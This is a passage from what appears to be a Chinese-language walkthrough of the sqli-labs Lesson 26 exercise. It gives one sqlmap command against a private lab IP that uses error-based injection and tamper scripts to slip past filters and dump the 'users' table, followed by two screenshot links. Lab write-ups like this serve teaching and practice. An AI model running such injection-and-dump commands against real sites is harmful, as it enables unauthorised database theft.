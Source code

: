 

我这里重启了虚拟机ip地址变了,不过不影响实验结果。

`python sqlmap.py -u "http://192.168.75.133/sql/Less-26/?id=1" --threads 10 --technique E --dbms mysql --tamper "andor.py,space0A.py,count.py" -D security -T users  --columns --dump --fresh-queries --flush-session`

![009](/img/sql/Lesson-26/009.png)

![010](/img/sql/Lesson-26/010.png)





